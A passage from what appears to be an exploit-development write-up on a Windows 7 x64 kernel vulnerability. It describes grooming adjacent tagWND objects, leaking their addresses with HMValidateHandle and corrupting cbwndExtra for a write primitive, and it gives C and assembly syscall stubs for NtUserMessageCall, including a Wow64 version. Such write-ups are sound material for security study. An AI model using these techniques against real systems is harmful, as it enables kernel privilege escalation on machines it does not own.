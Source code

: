 #### Triggering the creation of two adjacent tagWND Objects

This part is actually not related to the vulnerability itself, but we will need it to successfully exploit the vulnerability.

Since our goal is to trigger the vulnerability to corrupt the cbwndExtra field of a tagWND object,
we will need to make sure that we will create two adjacent tagWND structure since this approach will
give us just a partial write primitive!

To solve this problem, we can just create a lot of Window objects, leak their addresses using the HMValidateHandle technique
and just look at the distance between the created objects to choose the nearest between each other ones.

Once we found two adjacent tagWND object we can continue to the next part.

#### Creating and initializing the target Window

We will now need to create the Window object which will be used to trigger the vulnerability.
To accomplish this task, we can just register a Window class with a cbwndExtra field of 0x8 and then use the CreateWindowEx API to create
our target Window.

Then we will just initialize the target window by calling the NtUserMessageCall with the WM_CREATE param.

{% highlight c %}

NtUserMessageCall(targetWindow,0x1,0,0,0,0xE0,1); //0x1 is WM_CREATE
{% endhighlight %}

But how do we actually call the NtUserMessageCall function?
We will need to issue a syscall! Luckily for us, at <a href="https://github.com/j00ru/windows-syscalls"> this</a> address we can find the list of all Windows syscalls with their number: as we can see, the syscall number for NtUserMessageCall is 0x1007 on Windows 7 x64.

There is still a small problem we will need to solve: since we want to support execution from Wow64 processes, we will need to support Wow64 syscalls as we can see in the snippets below:

{% highlight c %}
_declspec(naked) NTSTATUS WINAPI NtUserMessageCallWow64(HWND, UINT, WPARAM, LPARAM, ULONG_PTR, DWORD, BOOL)
{
	_asm{
		mov eax, 0x1007;
		xor ecx,ecx;
		lea edx, dword ptr ss:[esp+0x4];
		call dword ptr fs:[0xC0];
		add esp,0x4;
		retn 0x1C;
	}
}
{% endhighlight %}

{% highlight text %}
PUBLIC NtUserMessageCall
NtUserMessageCall PROC
    mov r10, rcx
    mov eax,0x1007
    syscall
    ret
NtUserMessageCall ENDP
{% endhighlight %}
